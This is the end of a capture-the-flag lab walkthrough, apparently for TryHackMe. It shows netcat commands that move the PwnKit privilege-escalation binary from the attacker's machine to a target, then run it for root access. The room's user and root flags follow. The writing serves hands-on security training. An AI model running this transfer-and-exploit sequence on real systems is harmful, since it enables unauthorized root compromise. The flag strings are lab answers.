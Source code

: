 On your machine:

```bash
nc -lvnp 1111 < PwnKit
```

![Transfer from Local](our_machine.png)

On the target machine:

```bash
nc 10.201.38.83 1111 > PwnKit
```

![Transfer to Target](victim_machine.png)

Grant execute permissions and run the exploit:

```bash
chmod +x PwnKit
./PwnKit
```

![Root Access](root_access.png)

---

## Flags

- **User Flag:** `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`  
    ![User Flag](user_flag.png)

- **Root Flag:** `THM{f963aaa6a430f210222158ae15c3d76d}`  
    ![Root Flag](root_flag.png)

---

## Room Complete!

<div align="center">
    <img src="completed.png" alt="Completed" width="800"/>
</div>

---

## Happy Hacking!

<div align="center">
    <img src="https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExcHZoMml1dG9pcW0yM2d3dHowa2xrM2xmdGY0ODhia2YwOHdwd3RwbSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/lptIayuGHV9Utu3iTv/giphy.gif" alt="Hacking GIF" width="800"/>
</div>

